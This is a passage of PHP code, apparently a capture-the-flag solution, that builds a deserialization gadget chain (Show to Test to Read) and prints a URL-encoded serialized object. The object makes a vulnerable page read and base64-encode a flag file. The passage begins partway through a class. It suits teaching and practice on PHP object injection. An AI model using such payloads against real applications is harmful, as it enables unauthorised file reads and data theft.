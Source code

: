 ```php
    }

    public function __wakeup()
    {
    }
}
class Read {
    private $var="fllllllaaaaaag.php";

    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
    
    public function __invoke(){
        $content = $this->file_get($this->var);
        echo $content;
    }
}
class Test
{
    public $params;
    private $source="666";
    public function __construct()
    {
    }
    public function __get($key)
    {
        $func = $this->params;
        return $func();
    }  
}

$a=new Show();
$b=new Show();
$c=new Test;
//$s->str["str"] = $t;

//Read::__invoke
$c->params=new Read;

//Test::__get
$b->str['str']=$c;

//Show::__tostring
$a->source=$b;

print(urlencode(serialize($a)));
?>
```

